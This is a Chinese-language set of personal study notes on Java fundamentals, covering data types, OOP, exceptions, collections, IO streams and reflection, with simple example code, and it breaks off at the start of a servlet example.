










# java基础学习
## java 结构
 ### jdk包含以下 
   * Java 工具
       1.  javac a.java 编译java程序
       2.  java  a.class 执行字节码文件
   *  JRE 
       1.  jvm(java 虚拟机)
       2.  java 类库

##  与数据有关
###  基本数据类型
  *  字节(byte 或者1B)=8个二进制位=8bit
  *  1024B=1KB  1024KB=1MB  1024MB=1GB
    
### 引用类型
  *  数组 类 接口
### 量
   * 声明变量 

    变量类型 变量名 变量值
   * 声明规则注意事项
     1. 不能以数字开头
     2. 不能是java关键字
   * 常量
     1. 用final 修饰 
     2. 不可更改

### 数据类型转换
   *  范围小的类型向范围大的类型提升(自动转换)

         ```java
        byte a = 1;
        int b = 2;
        int sum = a+b;

        ```
 * 范围大的向范围小的转换(强制转换) 会丢失精度
   
    ```java
    int a = (int)1.5
    ```
 * . 如果除数或者被除数有小数，最后的结果为小数，否则为整数

###  运算
  * 三元运算符号 (条件表达式)? 表达式1:表达式2;

    ```java
        System.out.println(3>4?"c":"e");
    ```

## 流程控制
### switch
    ```java
        switch(1){
            case 1:
                System.out.println("you are my ");
            break;

            case 2:
                System.out.println("you are 2");
            break;

            default:
                System.out.println("not found");
            break;

        }
    ```
###  for循环语句
    ```java
    for(int i=0;i<=4;i++)
    {
        System.out.println(i);
    }
    ```

###  break 
   * 跳出循环(用在switch 或循环语句中)

## 数组
* 数组基础
  1. 数据类型相同
  2. 数组声明
           
         int[] a;

  3. 分配空间
           
         a= new int[5];
  4. 赋值 

         a[0]=8
  5. 一起

         int[] a={123,12313}
  6. 遍历数组
        ```java
        for(int s: a)
        {
            System.out.println(s);
        }
        ```
*  数组类Arrays

* 二维数组的定义

        int[][] a = new int[3][4];

## 面向对象
 * 定义类的格式
    ```java
    public class function{
        数据类型 变量名；

        修饰符 返回值类型 方法名(参数)
        {
            执行语句;
        }
    }
    ```
* 创建对象 类 对象名 = new 类名;
* 一个文件中只能有一个public 类 ，文件名与public类相同
* 如果没有public类，文件名可以为任何一个类名
* main可在任何一个类中

* 构造方法
    1. 无返回值类型
    2. 方法的名字和类名相同
    3. 创建对象时候执行
    4. 如果没有定义构造方法，系统会默认调用的无参的构造方法
    5. 当我们自己定义构造方法后，系统就不会定义构造方法
    6. 可以定义多个构造方法，根据参数数量来调用构造方法
    7. 在类中调用该类的造方法 可以通过 this(参数) 调用
    8. 调用子类构造方法时，系统会自动调用父类无参数的构造方法 类似在执行子类构造方法前加了super();，子类调用父类有参数的方法通过super(参数)调用


* 访问修饰符

    


* 类中变量
    1. 成员变量他的作用访问是整个类中，成员变量有初始值，对于引用类型：null,值类型初始值为0
    2. 局部变量作用只能是它定义的方法或代码块中,无初始值
* 继承
    1. 格式 class 子类 extends 父类
    2. java中只支持单继承不继承多继承
    3. super.访问父类的方法或属性 this. 访问子类的属性 
    4. 调用子类构造方法时，系统会自动调用父类无参数的构造方法 类似在执行子类构造方法前加了super(),在子类的构造方法中利用super(参数)
    调用父类有参数的构造方法

* 重写
    1. 子类中出现和父类一模一样的方法(返回值类型和形参都不能改变)，调用时先在子类中寻找，找到就执行。没有才在父类中寻找，与重载进行区分，重载是一个类中方法名字相同，而参数不同(参数不同。返回类型可以相同也可以不同)
    2. 通过super访问父类的方法
    3. 子类方法重写父类方法必须保证访问权限必须大于等于父类方法
* 抽象
    1. 抽象方法必须在抽象类中
    2. 关键字为abstract
    3. 子类重写父类的抽象方法，抽象类用来提供继承，抽象类 `不能实例化`
    4. 抽象类中可以有非抽象方法
    5. 抽象类的子类必须重写父类的抽象方法
* 包
    1. 如果2个类不在同一包下不能直接访问
    2. import 导入包
* 接口
    1. 强调规范
    2. interface 定义接口不用class
    3. 接口中变量的声明为 (必须为public)
    
             public static final int p=10;
                可以简写为（interface 系统自动添加public static )
                int  p=10;
    4. 方法如下声明  (必须为public)

                public abstract void pirint();
                可以简写为（interface 系统自动添加public static void)
                void print();
    5. 接口`不能实例化`,通过类去实现这个接口
    6. 实现接口的关键字是implements
    7. 必须实现接口中的所有抽象方法 `抽象方法必须实现`
    8. `可以实现多个接口，区别与抽象类`
    9. 接口与接口之间可以继承
    10. 简单案例
    
    ```java
    //inter.java
    package app;

    public interface inter
    {
        public  static final int a=123;
        public  static final int b=345;
        public   String c="sdfaf";

         public abstract void print(int ff);
    }

    //exxx.java
    package app;

    public class exxx
    {
        public int exc;
    
    }

    //accive.java
    package app;

    public class accive extends exxx implements inter
    {

    @Override
    public void print(int ff) {
        System.out.println(ff);
    }

    public  void aa()
    {
        System.out.print(c);
    }

    
    }

    class testaaa{

    public static void main(String[] args)
    {
        accive abc = new accive();
        abc.aa();
    }

    }

    
    ```


* 多态
    
    1. 一中事务的多种形态
    2. java中体现为父类引用变量可以指向子类对象(`存在继承关系或者接口`)
    3.  多态举例
    
    ```java
    //person.java
    package app;


    public class person
    {
        public int high;
        public int weight;

        public void run()
        {
            System.out.println("父类");
        }

        public void show()
        {
            System.out.println("这是父类中的show 方法");
        }


    }

    //student.java
    package app;

    public class student extends person
    {
        public String schoo_class;
        public String  schoo_idea;

          public void shuxu()
         {
             System.out.println("this is math method");
         }
 
        public void show()
        {
            System.out.println("这是子类中的show 方法");
        }
    }
    //DuoTaiTest
    package app;


    public class DuoTaiTest
    {
        public static void main(String[] args)
       {
           person p = new student();  //父类的引用变量指向子类对象
               p.show();
            System.out.println(p.high);
       }
    }   

    ```
* 多态特点
    1. 编译时期:参考引用变量所属的类，如果类中没有调用的方法，编译失败
    2. 运行时期，参考引用变量所指的对象所属的类，并允许对象所属类中的成员方法

* instanceof
    1.  判断某个对象是否属于某种数据类型，返回true or false
    2. 格式: 对象 instanceof 数据类型
    3. 子类对象是父类类型
* 多态的转型
    1. 向上转型 父类的引用变量指向子类对象
    2. 把父类类型转换成子类类型的引用
    ```java
        Person p = new Student(); //向上转型
        Studetn stu = (Student)p;//向下转型，需要强制转换 被转换的对象本身是子类类型的对象

    ```
    3. `同种类的多个对象,对同一种方法的不同实现`
    4. 当不需要面对子类类型时，通过提高扩展性，或者使用父类的功能就能完成相应的操作，就可以使用向上转型
    5. 当要使用子类特定功能时候，就需要使用向下转型

* final 
    1. 可以修饰类，类的成员，以及局部变量
    2. 修饰类:不可被继承，但可继承其他类
    3. final 修饰的方法不可被覆盖，但父类中没有被final修饰方法，子类覆盖后可以加final
    4. final 修饰的常量只能被赋值一次
    5. final 修饰的对象可以给对象的属性赋值，但不能把该对象赋值给其他对象
    6. 修饰成员变量的时候，可以在构造方法中赋值
* static
    1. static 修饰的内容存在静态区域中
        
    2. 通过类名访问
    3. 当成员变量与类有关与具体的对象无关，我们就可以定义为static
    4. 在静态方法里，只能访问静态成员
* 内部类举例
    ```java
    
    package app;

    import app.leibu.Heart;

    public class leibu{
         private boolean life=true;
        public class Heart
        {
                public void jump()
                 {
                        System.out.println(life); //内部类可以调用外部类的属性
                }
        }


        }
         class TestN{
    
         public static void main(String[] args)
        {
             leibu.Heart heart = new leibu().new Heart();
             heart.jump();

     }

    }
    ```
* 代码快
    1. 局部代码快
    直接添加{},作用域在代码快内部
    2. 构造代码快，直接加{} 定义在类中， 先于构造函数执行
    3. 静态代码快 
    
            static{

            }
## 异常
   1. 异常的类是Throwable 分为error 和 exception
   1. throw 抛出异常 格式  throw 异常对象
   2. throws 声明异常
        ```java
        package app;

        import java.io.FileNotFoundException;

        public class Except{
            public static void main(String[] args) throws           FileNotFoundException {
                     getexect("a.txt");

            }

        public static void getexect(String path) throws FileNotFoundException {
            if(!path.equals("aa.txt"))
            {
                throw new FileNotFoundException("文件");
            }
        }
       }
        ```
        3. 捕获异常 
        
               try{

                }catch(异常类型 e)
                {
                
                e.printStackTrace(); //打印异常

                }
        4. finally 无论异常是否发生，都需要执行
                try{

                }catch(异常类型 e)
                {
                    e.printStackTrace(); //打印异常
                }finally
                {

                }
        5. 多个异常

                try{

                }catch(异常类型1 e)
                {
                    e.printStackTrace(); //打印异常
                }catch(异常类型2 e){

                }finally
                {

                }
        6. Exception 类型异常可以捕获所有异常(子类异常的父类)
* 异常注意事项
    1. 重写父类方法时候，可以抛出与父类一样的异常或父类异常的子类异常，`不能是父类异常的父类异常`
    2. `父类没有抛出异常，子类不能抛出异常`

* 自定义异常
    1. 继承java.lang.Exception类
    2. 异常类举例
    ```java
    //定义异常类
    package app;

    public class Regesit extends Exception{

    /**
	 *
	 */
	    private static final long serialVersionUID = 1L;

        public Regesit(){};
        public Regesit(String mes)
        {
          super(mes);
        
         }

       }
    //抛出异常
    package app;
    public class ExTest
    {
        public static String[] name = {"sfdsaf","lihong"};
         public static void main(String[] args) 
        {
             try{
                 rege("lihong");

                 } catch (Exception e) {
                    e.printStackTrace();
        }
     }
    public static void rege(String rname) throws Regesit
         {
            for(String n:name)
            {
                if(n.equals(rname))
                {
                throw new Regesit("此用户已经注册");
                 }
             }
        

        }
    }
    ```
## 泛型
  1. 指我们之前学的所有数据类型中的某一种
  2. 泛型是和集合一起使用,用于指定集合中所存储的类型是什么
  3. 语法: <数据类型> `泛型里面不能写八大基本数据类型,但是可以使用其封装类型`
    

* 集合
    1. 常用的集合
        * Collection 接口
            * List 接口
                1. ArrayList 数组结构(增删慢,查询快)
                举例

                ```java
                    package app;

                    import java.util.ArrayList;
                    import java.util.Iterator;
                    import java.util.List;


                    public class ListDemo{
                        public static void main(String[] args)
                        {
                            //多态
                            List<Integer> list = new ArrayList<>();
                            //声明对象
                            ArrayList<Integer> list_one = new ArrayList<>();
                            list.add(1);
                            list.add(2);
                            list.add(33);
                            if(!list.isEmpty())
                            {
                                if(list.contains(2))
                                {
                                    System.out.println("包含2");
                                }
                            }

                            //遍历集合的三种方式
                            //1. for
                            for(int i=0; i<list.size();i++){
                            System.out.println("for循环:"+list.get(i));


                            }
                            //迭代
                            Iterator<Integer> it = list.iterator();
                            while(it.hasNext())
                            {
                                System.out.println("迭代器输出"+it.next());
                            }
                            //foreach
                            for(Integer ia:list)
                            {
                                System.out.println("for(Integer ia:list)"+ia);
                            }


                        }
                    }
                
                ```
                2. LindkedList 链式结构(查询慢,增删快)

                

                
            * Set 不能有重复的内容,没有下标,添加重复会覆盖
                1. HashSet 添加基本类型
                    ```java
                        package app;

                        import java.util.HashSet;
                        import java.util.Iterator;
                        import java.util.Set;

                        public class ListSet{
                            public static void main(String[] args)
                            {
                                Set<String> Ss = new HashSet<>();
                                Ss.add("3");
                                Ss.add("4");
                                Ss.add("5");
                                Ss.add("你好");
                                Ss.add("你好");
                                System.out.println(Ss.size());
                                //遍历有2钟
                                //1.迭代
                            Iterator<String> SI = Ss.iterator();
                            while(SI.hasNext())
                            {
                                System.out.println("迭代"+SI.next());
                            }
                            //foreach
                            for(String SB:Ss){
                                System.out.println("foreach遍历"+SB);
                            }


                            }
                        }
                       ```
                2.  添加引用类型
                    ```java
                    //student.java
                    package app;
                    public class teacher{
                        private int id;
                        private String name;
                        

                        public int getId()
                        {
                            return id;

                        }
                        public void setId(int id)
                        {
                            this.id = id;
                        }
                        
                        public String getName()
                        {
                            return name;
                        }
                        public void setName(String name)
                        {
                            this.name = name;
                        }
                        public teacher()
                        {
                            super();
                        }
                        public teacher(int id,String name)
                        {
                            this.id = id;
                            this.name = name;
                            
                        }

                    }
                    //duixiangSet.java
                        package app;

                        import java.util.HashSet;
                        import java.util.Iterator;
                        import java.util.Set;

                        public class duixiangSet{
                        public static void main(String[] args)
                        {
                                Set<teacher> set =  new HashSet<>();
                                teacher t1 = new teacher();
                                t1.setId(1);
                                t1.setName("张三");
                                set.add(t1);
                                teacher t2 = new teacher(2,"李四");
                                set.add(t2);
                                Iterator<teacher> ti = set.iterator();
                                while(ti.hasNext())
                                {
                                    System.out.println("迭代"+ti.next().getName());

                                }
                                for(teacher ti2: set)
                                {
                                    System.out.println("foreach"+ti2.getName());
                                }
                        }   

                        }
                    ```
                3.  HashTable
        * Map 按照键值对存储
            1. 根据key 获取value
            2. key 是唯一的 
            
            3. HashMap举例
            ```java
            package app;

            import java.util.HashMap;
            import java.util.Map;
            import java.util.Set;
            import java.util.Map.Entry;

            public class HashMapTest {
                public static void main(String[] args){
                        Map<String,String> map = new HashMap<>();
                        map.put("whois", "whomi");
                        map.put("whoa", "whois");
                        System.out.println(map.get("whoa"));
                        //keyset 返回一个set对象
                        Set<String> set = map.keySet();
                        for(String s:set){
                            System.out.println(map.get(s));
                        }
                        //暂时没看懂
                        for(Entry<String, String> String: map.entrySet())
                        {
                            System.out.println(String.getKey()+"="+String.getValue());
                        }
                        
                }
            }
            ```
            3. 添加引用类型
            ```java
            //teacher 与前面一样,
            package app;

            import java.util.HashMap;
            import java.util.Map;
            import java.util.Set;

            public class MapYin{
                public static void main(String[] args){
                    Map<Integer,teacher> map = new HashMap<>();
                    teacher one = new teacher();
                    one.setId(1);
                    one.setName("who");
                    map.put(1, one);
                    teacher two = new teacher(1,"two");
                    map.put(2, two);
                    //取值
                    System.out.println("取值"+map.get(1).getName());
                    //迭代
                    Set<Integer> set = map.keySet();
                    for(Integer i : set){
                        System.out.println(i);
                        System.out.println("迭代"+map.get(i).getName());
                    }

                }
            }
            ```
## iO 流(在io包)
   1. 字符流(读一个中文读1次,读一个英文1次) 字节流(读一个中文读2次,读一个英文1次)
   2. 顶层四个IO类
       * 字节流  InputStream  OutputStream
           1. InputStream 中的FileInputStream
                ```java
                package file;

                import java.io.FileInputStream;
                import java.io.FileNotFoundException;
                import java.io.IOException;

                public class FileInputStreamDemo {
                    public static void main(String[] args) throws FileNotFoundException {
                        // 1. 生成对象
                        FileInputStream in = new FileInputStream("D:\\java-study\\javatest\\src\\app\\a.txt");
                        try {
                            /*
                            //一次读取一个
                            int asc = in.read();
                            System.out.print((char)asc);
                            //移动到下一次读取
                            int asc2 = in.read();
                            System.out.print((char)asc2);
                            */

                            /*
                            //一次读取4个
                            byte[] b = new byte[4];
                            //读取的长度
                            int length = in.read(b);
                            String s = new String(b, 0, length);
                            System.out.print(s);
                            */

                            //全部读取,使用while
                            byte[] b = new byte[3];
                            int length;
                            while((length=in.read(b))>-1){
                                System.out.print(new String(b, 0, length));

                            }


                        } catch (IOException e) {
                            // TODO Auto-generated catch block
                            e.printStackTrace();
                        }finally{}
                    }

                }
                ```
            2. FileOutputStream
            ```java
            package file;

            import java.io.FileNotFoundException;
            import java.io.FileOutputStream;
            import java.io.IOException;

            public class FileOutPutStreamDemo {
                public static void main(String[] args) throws FileNotFoundException {
                    FileOutputStream out = new FileOutputStream("D:\\java-study\\javatest\\src\\file\\b.txt");
                    try {
                        out.write("你是那个".getBytes());
                    } catch (IOException e) {
                        // TODO Auto-generated catch block
                        e.printStackTrace();
                    }

                }

            }
            ```

        * 字符流: FileReader(只能对文本进行操作) FileWriter
            1. FileRead 读取文件
            ```java
            package file;

            import java.io.FileReader;

            public class FileReadDemo {
                public static void main(String[] args) throws Exception {
                    /*//一个字符读取
                    FileReader fr = new FileReader("D:\\java-study\\javatest\\src\\app\\a.txt");
                    int leng = fr.read();
                    System.out.println((char)leng);
                    int leng1 = fr.read();
                    System.out.println((char)leng1);
                    fr.close();
                */ 
                        //全部读取
                    FileReader fr = new FileReader("D:\\java-study\\javatest\\src\\app\\a.txt");
                    char[] ch = new char[4];
                    int len;
                    while((len=fr.read(ch))>-1)
                    {
                        System.out.print(new String(ch,0,len));
                    }
                }
            }
            ```
            2. FileWrite
                ```java
                package file;

                import java.io.FileWriter;
                import java.io.IOException;

                public class FileWriterDemo {
                    public static void main(String[] args) throws IOException
                    {
                        FileWriter fr = new FileWriter("D:\\java-study\\javatest\\src\\file\\c.txt");
                        fr.write("whois你");
                        fr.write("whoaisfdsf");
                        fr.flush();//保存
                
                    }
                }
                ```
        * 缓冲流 BufferedWriter BufferedReader 自带缓冲区
        举例代码可以一行一行的读取

            ```java
                    package file;

                    import java.io.BufferedReader;
                    import java.io.FileNotFoundException;
                    import java.io.FileReader;
                    import java.io.IOException;

                    public class BuffReaderDemo {
                        public static void main(String[] args) throws FileNotFoundException {
                            FileReader reader = new FileReader("D:\\java-study\\javatest\\src\\app\\a.txt");
                            BufferedReader bu = new BufferedReader(reader);
                            
                            String str;
                            try {
                                while ((str = bu.readLine()) != null) {
                                    System.out.println(str);

                                }
                                reader.close();
                                bu.close();
                            } catch (IOException e) {
                                // TODO Auto-generated catch block
                                e.printStackTrace();
                            }
                        }
                        
                    }

            ```
    3. 利用File 类对文件进行操作

            File file1 = new File(file) 文件
            File file2 = new File(file) 目录
            File f = new File(file2, 文件);
## 反射
   1.  定义: 反射机制是在运行状态中,对于任意一个类,都能够知道该类有那些构造,属性,方法,对于任意一个对象,都可以调用到该类的属性,构造,方法,是一种动态获取信息(属性,构造,方法),以及调用信息的技术,在java中称为反射

   2. a.java---编译-->a.class--运行-->JVM(JAVA 虚拟机)
   3. 使用java.exe 对某个字节码文件进行解释运行,相当于将某个字节码文件加载到内存中,此过程就称为类的加载,加载到内存中的类,我们就称为`运行时类`,此运行时类,就作为`Class 的一个实例`
   3. 加载到内存中的运行时类,会缓存一定的时间,在此时间之内,我们可以通过不同方式来后去此运行时类

   4. 获取大Class 的实列
        1. 类名.class
        2. 通过对象名.getClass();
        3.  Class.forName(类的全路径)
   5. 通过反射可以完成什么
        1. 用反射实现对象能实现的操作
        2. 通过反射调用类的私有属性,私有构造器,私有方法
        3. 举例
        ```java

        //Person.java

                package fanshe;
        public class Person{
            public String name;
            private int id;

            public Person(){
                super();
            }
            public  Person(String name,int id)
            {
                this.name = name;
                this.id = id;
            }
            private Person(String name)
            {
                this.name = name;
            }
            
            public String  getName()
            {
                return name;
            }
            public void setName(String name)
            {
                this.name = name;
            }
            public String toString()
            {
                return "Peson{ name="+name+"}id="+id+"";
            }
            public void show(){
                System.out.println("我是一个人");
            }

            private String shownation(String nation)
            {
                System.out.println(nation);
                return nation;
            }
        }


                package fanshe;

        import java.lang.reflect.Constructor;
        import java.lang.reflect.Field;
        import java.lang.reflect.InvocationTargetException;
        import java.lang.reflect.Method;


        public class flectDemo {
            public static void main(String[] args) throws Exception {
                //1. 用反射实现对象能实现的操作
                //1.1 创建对象
                Class clazz = Person.class;
                Constructor cons =  clazz.getConstructor(String.class,int.class);  //获取构造方法，适用于
                Object obj  = cons.newInstance("tom",1);  //多态
                System.out.println(obj);//调用的是person的tostring方法
                Person p = (Person)obj;

                //通过反射,调用对象指定的属性指定的方法
                Field name  = clazz.getDeclaredField("name");// 调用属性
                name.set(p, "mack");  //为对象的属性赋值
                System.out.println(p);//调用的是person的tostring方法 p对象的name属性值更改
                String getname =(String)name.get(p);
                System.out.println("改名为"+getname);


                //调用方法
                Method show = clazz.getDeclaredMethod("show");
                show.invoke(p);

                System.out.println("*********************************");
                //通过反射可以调用Person类私有的结构,比如私有的构造器,方法, 属性
                //调用私有构造器
                Constructor cons1 =    clazz.getDeclaredConstructor(String.class);
                cons1.setAccessible(true);
                Object obj1 =  cons1.newInstance("tomone");
                Person p1 = (Person)obj1;
                System.out.println(p1.toString());

                //调用私有属性
                Field id1 =   clazz.getDeclaredField("id");
                id1.setAccessible(true);
                id1.set(p1, 20);
                System.out.println(p1.toString());

                //调用私有方法
                Method  shownation  =  clazz.getDeclaredMethod("shownation", String.class);
                shownation.setAccessible(true);
                String nation =  (String) shownation.invoke(p1, "韩国");
                System.out.print(nation);
                
                //调用静态方法
               /* Method  showstatic  =  clazz.getDeclaredMethod("showstatic", String.class);
                showstatic.setAccessible(true);
                showstatic.invoke(person.classs)
                //或者
                showstatic.invoke(null) //调用的是static方法那么第一个参数值可以传null
                
               */


            }
        }
        ```

   7. 作为Class 的实例

        
    8. 通过反射创建对应运行时类的对象
        ```java
                package fanshe;
        public class duixiang{
            public static void main(String[] args) throws InstantiationException, IllegalAccessException {
                Class clazz = Person.class;
                Object obj = clazz.newInstance();//有个前提就是必须提供无参的构造函数
            }
        ```
        * 只要我们访问的属性或方法不需要创建Object的都不需要反射时候获取构造方法，也不需要通过clazz.newInstance(); 获取对象


   9. 体验反射的动态性
   ```java
   package fanshe;

    import java.util.Random;

    public class dontai {
        public static void main(String[] args) {
            int num = new Random().nextInt(2);
            String path="";
            switch (num) {
                case 0:
                    path = "java.util.Date";
                    break;

                case 1:
                    path = "fanshe.Person";
                    break;
            }
            try {
                Object o =   getinstense(path);
                System.out.print(o);
            } catch (ClassNotFoundException | InstantiationException | IllegalAccessException e) {
                // TODO Auto-generated catch block
                e.printStackTrace();
            }


            
        }
        public static Object getinstense(String path) throws ClassNotFoundException, InstantiationException, IllegalAccessException
        {
            Class clazz = Class.forName(path);
            return clazz.newInstance();

        }
    }
   ```
   9. 获取运行时类的完整结构
      1. 获取当前运行时类及其父类中声明public访问权限的属性 Field[] fields = clazz.getFields(); 


# java web  
## Servlet
* 一个系统默认创建的servlet
    ```java
    package one.cn;

    import java.io.IOException;
    import javax.servlet.ServletException;
    import javax.servlet.annotation.WebServlet;
    import javax.servlet.http.HttpServlet;
    import javax.servlet.http.HttpServletRequest;
    import javax.servlet.http.HttpServletResponse;

    /**
    * Servlet implementation class two
    */
    @WebServlet("/two")
